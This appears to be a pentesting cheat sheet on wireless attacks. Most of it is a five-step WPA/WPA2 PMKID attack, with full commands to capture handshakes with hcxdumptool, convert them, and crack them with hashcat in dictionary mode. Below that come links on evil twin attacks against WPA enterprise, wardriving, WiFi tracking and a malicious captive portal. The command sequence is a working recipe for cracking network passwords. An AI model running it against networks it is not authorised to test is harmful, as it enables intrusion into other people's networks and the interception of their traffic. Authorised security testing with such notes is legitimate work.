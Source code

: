 # Wireless

## WPA/WPA2 PMKID

STEP 1:
https://github.com/ZerBea/hcxdumptool
https://github.com/aircrack-ng/aircrack-ng

STEP 2: Find target BSSID:
airodump-ng <int>

STEP 3: Add BSSID in ‘bssid.txt’ and use ‘hcxdumptool’:
hcxdumptool -i <int> --filterlist=bssid.txt --filermode=2 --enable_status=2 -o pmkid.pcap

STEP 4: Extract PMKID into hashcat format for cracking:
(link: https://github.com/ZerBea/hcxtools) github.com/ZerBea/hcxtools
hcxpcaptool -z wpa2_pmkid_hash.txt pmkid.pcap

STEP 5: Crack:
hashcat -a 0 -m 16800 -w 4 wpa2_pmkid_hash.txt dict.txt

> https://mobile.twitter.com/netmux/status/1097908867374215168

## WPA enterprise (evil tween attack)
- https://pwn.no0.be/exploitation/wifi/wpa_enterprise/
- https://rootsh3ll.com/evil-twin-attack/

## WiFi Wardriving with Android
- WiGLE WiFi Wardriving: https://play.google.com/store/apps/details?id=net.wigle.wigleandroid&hl=en

## Tracking
- Tracking All the WiFi Things: https://osintcurio.us/2019/01/15/tracking-all-the-wifi-things/
## References

### New References
- How to Make a Captive Portal of Death: https://medium.com/bugbountywriteup/how-to-make-a-captive-portal-of-death-48e82a1d81a
